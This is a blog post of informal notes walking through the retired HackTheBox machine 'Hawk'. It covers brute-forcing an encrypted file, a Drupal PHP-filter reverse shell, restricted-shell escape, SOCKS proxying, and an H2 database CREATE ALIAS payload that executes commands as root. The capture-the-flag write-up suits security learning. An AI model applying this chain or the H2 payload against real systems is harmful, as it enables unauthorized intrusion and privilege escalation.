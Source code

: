 ```yaml
---
title: HackTheBox Notes - Hawk (ft. Procrastination)
thumbnail: hawk-thumb.png
---
```


Due to my incredible laziness, my last HTB article was five months ago. This is because I can't be bothered to explain stuff in a proper walkthrough of the boxes, so here's something much easier: I'm just posting the notes I was writing down as I was going through the box.

This is probably what I'm going to keep doing for HTB from now on, I have another three boxes that I'll publish when they are retired. But worry not, I promise after those boxes, I'll have much higher quality notes that won't be a confusing and poorly written mess.

I'm also not doing those old thumbnails of the box identicons anymore because those are way to hard to draw on a touchpad.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 18:11 AEDT
Nmap scan report for 10.10.10.102
Host is up (0.28s latency).
Not shown: 937 closed ports, 60 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

### FTP Server
`ftp://10.10.10.120`

* Allows anonymous login
* Only file in `messages/.drupal.txt.enc`
* Can’t download with `get` for some reason, so let’s just view it

```
ftp> get .drupal.txt.enc -
remote: .drupal.txt.enc
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
226 Transfer complete.
240 bytes received in 0.00 secs (5.8688 MB/s)
ftp>
```
Just a base64 string

* But decoding it makes some gibberish
```
justin@sierra-fc282: ~ # echo
"U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJbCmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQzQUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfyt4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=" | base64 --decode
<random giberish that breaks my mardown parser>
justin@sierra-fc282: ~ #
```

* Now as it turns out, I did in fact download it but I just didn’t see it because it was a hidden file and I was using a normal `ls`…
* Anyway, because of the `.enc` extension, I’m gonna go ahead and assume it’s encrypted with OpenSSL. So now we save the decoded version to a file
`cat drupal.txt.enc | base64 --decode > drupal.b64d.enc`
* Downloaded [this tool to bruteforce the password](https://github.com/glv2/bruteforce-salted-openssl)
* And now we try it with some basic options

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -v 30 drupal.b64d.enc

Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 14344391
Tried passwords per second: 896524.437500
Last tried password: *7¡Vamos!

Password not found.
The file might have been encrypted with a different cipher or/and a
different digest (e.g. OpenSSL 1.0.x uses the MD5 digest by default
but OpenSSL 1.1.x uses SHA256 by default).
```
Nope. This might take a while…

* Okay let’s try it with a different digest `sha256`

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -d sha256 -v 30 drupal.b64d.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 32
Tried passwords per second: inf
Last tried password: hello

Password candidate: friends
```
That was easy. We were not here for a while, I lied

* Now we can decrypt it

```
root@kali:~/Documents/htb/hawk# openssl enc -d -aes256 -salt -in drupal.b64d.enc -out drupal.decrypted -k friends
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
root@kali:~/Documents/htb/hawk# cat drupal.decrypted
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```
Neato

### Drupal Web Portal
`http://10.10.10.102`

* Login with `Admin`:`PencilKeyboardScanner123`
* `admin/reports/status` says Drupal version is `7.58`
	*  `/CHANGELOG.txt` says it was patched for `CVE-2018-7600`
* Looks like we gotta upload a good ol’ PHP reverse shell.
	* First we need to allow Drupal to add PHP page snippets. In `admin/modules` tick the `PHP Filter` option
	* Go to `node/add/page` and upload the shellcode
	* You know the rest

### PHP Reverse Shell
* Logged in as `www-data`
* We have access to `/home/daniel/user.txt`. So just get that
- - - -
* Attempted to ssh with a password found in `/var/www/html/sites/default/settings.php ` - `drupal4hawk` with username `daniel`

### SSH Python Client
* `daniel` user uses a Python restricted shell. So yep
* Easy fix `import pty; pty.spawn(‘/bin/bash’)`

### SSH Bash Client
* Logged into mysql server with `drupal`:`drupal4hawk`
	* In `users` table

```
name: admin
pass: $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
```
The hash is a special `sha512 (Drupal)` hash, so this is probably not where we are supposed to be

* Another database `h2` is running as root. We can access it on `10.10.10.102:8082`
	* But we get denied access because it only accepts connections from localhost, we need to set up a proxy
	* Create a new SSH session with `ssh -D 8080 daniel@10.10.10.102`
	* Setup Firefox to allow SOCKS proxy with `127.0.0.1:8080`
	* Now we can access it
* Looking back at `ps -aux` we see that the process is running without the `-user` or `-pass` args which means we can access it with default credentials
	* But, of course… this doesn’t work
	* [Frequently Asked Questions](http://www.h2database.com/html/faq.html#connect) for `h2` shows that the database may be stored somewhere different
	* Replaced `~/test` with `./data/test` and we’re in

### H2 Web Console
`10.10.10.102:8082`

* Looked for an exploit and [found this](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
* So in the console you run

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```
And it displays
```
CALL SHELLEXEC('cat /root/root.txt');
PUBLIC.SHELLEXEC('cat /root/root.txt')
54f3e840fe5564b42a8320fd2b608ba0
(1 row, 5 ms)
```
